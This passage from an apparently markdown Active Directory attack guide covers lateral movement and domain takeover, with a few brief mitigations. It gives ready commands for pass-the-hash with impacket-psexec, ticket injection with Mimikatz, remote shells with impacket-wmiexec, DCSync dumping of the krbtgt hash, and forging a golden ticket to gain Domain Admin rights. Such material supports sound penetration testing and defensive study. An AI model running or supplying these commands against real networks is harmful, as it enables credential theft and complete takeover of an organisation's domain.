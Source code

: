 * **Mitigation:** Avoid Unconstrained Delegation wherever possible. Tightly scope Constrained Delegation and audit computer objects that have delegation permissions.

### ### Lateral Movement Techniques

Once you have credentials (a password, NTLM hash, or Kerberos ticket), you can use them to move to other machines.

* **Pass-the-Hash (PtH):** Use a user's NTLM hash instead of their password to authenticate. This works with many Windows protocols.
    * **Tool:** `impacket-psexec`: `impacket-psexec <DOMAIN>/<USER>@<TARGET_IP> -hashes <LM_HASH>:<NT_HASH>`
* **Pass-the-Ticket (PtT):** Use a stolen or forged Kerberos ticket to authenticate.
    * **Tool:** `Mimikatz` (to inject the ticket) and `Rubeus` (for a more advanced workflow).
        ```powershell
        # On your compromised host
        mimikatz.exe "kerberos::ptt ticket.kirbi"
        ```
* **WinRM:** If you have credentials for a user in the "Remote Management Users" group, you can get a remote shell.
    * **Tool:** `impacket-wmiexec`: `impacket-wmiexec <DOMAIN>/<USER>:<PASSWORD>@<TARGET_IP>`

---

### ## Part 5: Domain Dominance & Persistence

The final stage: taking full control and ensuring you can't be kicked out.

### ### DCSync

This is not an exploit, but an abuse of legitimate replication rights. An account with DCSync permissions can ask a DC for any user's password hash.

* **Objective:** Dump all password hashes from the domain without running code on a DC.
* **Tool (`Mimikatz`):** The command impersonates a Domain Controller and requests the NTLM hash of the `krbtgt` account.
    ```powershell
    # Requires Domain Admin (or equivalent) privileges
    mimikatz.exe "lsadump::dcsync /domain:<your.domain> /user:krbtgt"
    ```
* **Mitigation:** Tightly control and monitor who has replication permissions on the domain root.

### ### Golden Ticket Attack (In-Depth)

* **Objective:** Forge a master Kerberos ticket to become any user at any time.
* **Prerequisites:** You need the `krbtgt` account's NTLM hash (from a DCSync attack), the domain name, and the domain SID.
* **Tool (`Mimikatz`):**
    ```powershell
    # kerberos::golden /user:<User_To_Impersonate> /domain:<Domain_Name> /sid:<Domain_SID> /krbtgt:<KRBTGT_HASH> /ptt
    # Example:
    kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-..... /krbtgt:deadbeef.... /ptt
    ```
    After running this, your current shell has the permissions of a Domain Admin.
